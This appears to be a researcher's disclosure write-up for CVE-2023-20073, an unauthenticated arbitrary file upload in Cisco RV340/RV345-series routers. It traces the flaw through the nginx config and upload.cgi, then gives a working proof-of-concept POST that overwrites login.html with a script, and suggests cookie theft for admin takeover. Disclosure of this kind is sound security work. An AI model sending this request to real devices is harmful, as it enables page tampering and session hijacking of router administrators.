


# CVE-ID

[CVE-2023-20073](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-20073 "https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-20073")

# Vendor's disclosure and acknowledgement

[Cisco Security Advisory](https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-sb-rv-afu-EXxwA65V "https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-sb-rv-afu-EXxwA65V")

[Cisco Bug ID - CSCwe04040](https://bst.cloudapps.cisco.com/bugsearch/bug/CSCwe04040 "https://bst.cloudapps.cisco.com/bugsearch/bug/CSCwe04040")

# Information

**Vendor of the products:**    Cisco

**Vendor's website:**    [https://www.cisco.com](https://www.cisco.com "https://www.cisco.com")

**Reported by:**    WangJincheng(<wjcwinmt@outlook.com>)

**Affected products:**	Cisco RV340, RV340W, RV345, and RV345P VPN Router

**Affected firmware version:**	1.0.03.29 (the latest release version)

**Firmware download address:** 	[https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.29](https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.29 "https://software.cisco.com/download/home/286287791/type/282465789/release/1.0.03.29")

# Overview

`Cisco RV340, RV340W, RV345, and RV345P VPN Router` have a `Authentication bypass vulnerability`. This vulnerability is caused by lax verification of the `Authentication` field and the value of `session` in the HTTP request header. The attacker can **upload arbitrary files and overwrite login.html, index.html and other important configuration files without authentication** through this vulnerability, causing some harm, such as `storage type XSS attack`.

# Vulnerability details

In the file `/etc/nginx/conf.d/rest.url.conf`, we can see that when accessing the URL of `/api/operations/ciscosb-file:form-file-upload`, it only judges **whether the `Authorization` field is empty**, and lack of materiality check.


If the Authorization field is not empty, we can upload the file to the `/tmp/upload` folder, and finally use `uwsgi` to call `upload.cgi` through `/form-file-upload`.


In the file `/www/cgi-bin/upload.cgi`, it first gets the delimiter of the `POST` request body content through `boundary=` (from this, we know that the `Content-Type` is `multipart/form-data; boundary=xxxx`).


Next, the fields sent in the `POST` body are separated and stored in variables respectively. The contents of `pathparam` and `fileparam` fields are stored in `v30` and `v31` variables respectively.


Then, the `Cookie` is separated by `sessionid=xxx` to get the `session`.


However, we can enter the function `sub_115EC` **without checking the `session`** (the first parameter is `pathparam` and the third parameter is `fileparam`).


In the `sub_115EC` function, when a1 (the value of the `pathparam` field) is `Portal`, **we can move any file that can be uploaded without authorization to the `/tmp/www` directory compulsorily**.




In addition, in the directly accessible `/www` folder, `index.html` and `login.html` are soft linked to files with the same name under `/tmp/www`.


In summary, the attacker can **upload arbitrary files and overwrite login.html, index.html and other important configuration files without authentication** through this vulnerability, causing some harm, such as `storage type XSS attack`.

# Poc

Send the following as a `POST` request to the URL `/api/operations/ciscosb-file:form-file-upload`. At the same time, we need to ensure that the `Content-Type` in the HTTP request header is `multipart/form-data`, the `Authorization` is not empty, and the `Cookie` starts with `sessionid=`, for example, Authorization is `123` and Cookie is `sessionid=abc`.

```
------hacked-by-winmt------
Content-Disposition: form-data; name="pathparam"

Portal
------hacked-by-winmt------
Content-Disposition: form-data; name="fileparam"

login.html
------hacked-by-winmt------
Content-Disposition: form-data; name="file"; filename="login.html"
Content-Type: application/octet-stream

<title>Hacked by winmt!</title>
<script>alert('Hacked by winmt!')</script>
------hacked-by-winmt------
```

# Attack Demo

Before the attack, access to `/login.html` was normal and remained the status of not logging in.



Attack through the above POC (although `Error Input` is displayed, the attack is successful) .

In the POC, we overwrite `login.html` as following.

```
<title>Hacked by winmt!</title>
<script>alert('Hacked by winmt!')</script>
```


After the attack, visit `/login.html` and we can see the page that has been tampered with arbitrarily. A `storage type XSS attack` is caused here.


# Supplement

The attacker can tamper with `index.html` and use the `storage type XSS attack` to obtain the `cookie` of the user who just logged in through `/login.html`. Then, he can forge cookies to perform operations that can only be performed by administrators, causing serious consequences.

